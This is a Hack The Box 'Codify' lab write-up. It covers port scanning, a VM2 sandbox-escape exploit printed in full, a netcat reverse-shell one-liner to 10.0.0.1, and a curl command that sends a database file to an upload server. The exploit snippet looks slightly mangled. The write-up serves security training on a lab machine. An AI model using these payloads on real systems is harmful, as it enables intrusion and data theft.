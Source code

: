 ```yaml
---
published: false
title: Hack The Box Codify Write Up
slug: htb-codify
description: Write up for Codify machine on Hack the box
author: Leon
date: 2024-03-23
cover: /media/1 2zqbeP26SB5iDgOINWaPfQ-3674822343.png
---
```

![](/media/1%202zqbeP26SB5iDgOINWaPfQ-3674822343.png)  
  
Port Enumeration:

We conducted a port scan to assess the available ports on the target IP using the following command:

```
nmap -p- --min-rate 5000 $TARGET -sV 
```

The scan results unveiled several open ports:

*   Port 22/tcp: Open, hosting an SSH service.
    
*   Port 80/tcp: Open, serving HTTP.
    
*   Port 8888/tcp: Open, possibly related to the Sun AnswerBook service.
    

These findings suggest potential points of entry into the system, with SSH, HTTP, and a less common port being accessible.

Web Enumeration:

Upon accessing the web server on port 80, we were redirected to "codify.htb". To ease further access, we added the domain to our 'etc/hosts' file.

Further investigation of the web server yielded limited results. Despite attempts with basic reverse shells and testing in code editors, we encountered challenges in making significant progress. Examination of the source code and directory paths via DirBuster confirmed the absence of additional accessible pages beyond the visible content.

During this exploration, we noted the utilization of VM2 for the code sandbox, suggesting potential avenues for exploitation.

Exploitation Discovery:

Research into known vulnerabilities for the Node.js library led to a post on GitHub ([https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)) detailing a vulnerability in the `handleException()` function. This vulnerability enables escaping the sandbox and executing arbitrary code for VM2 versions up to 3.9.16.

The vulnerable code snippet is as follows:

```
const {VM} = require("vm2");
const vm = new VM();
const code =  err = {};
const handler = {
   getPrototypeOf(target) {
       (function stack() {
           new Error().stack;
           stack();
       })();
   }
};
const proxiedErr = new Proxy(err, handler);
try {
   throw proxiedErr;
} catch ({constructor: c}) {
   c.constructor('return process')().mainModule.require('child_process').execSync('YOUR BASH COMMAND');
}
console.log(vm.run(code));
```

Executing a bash command such as `ls` or `whoami` confirms the functionality of the code.

Now, it's time for Remote Code Execution (RCE)! I utilized the following payload for this purpose:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 443 >/tmp/f
```

This payload establishes a reverse shell to 10.0.0.1 on port 443.

Additionally, we discovered a database file located at `/var/www/contacts/tickets.db`. To exfiltrate the file, we utilized the following method:

```
# Listen to files
python3 -m pip install --user uploadserver
python3 -m uploadserver

# Send a file
curl -X POST http://HOST/upload -F 'files=@tickets.db' 
```

This process enables the transfer of the database file for further analysis and exploitation.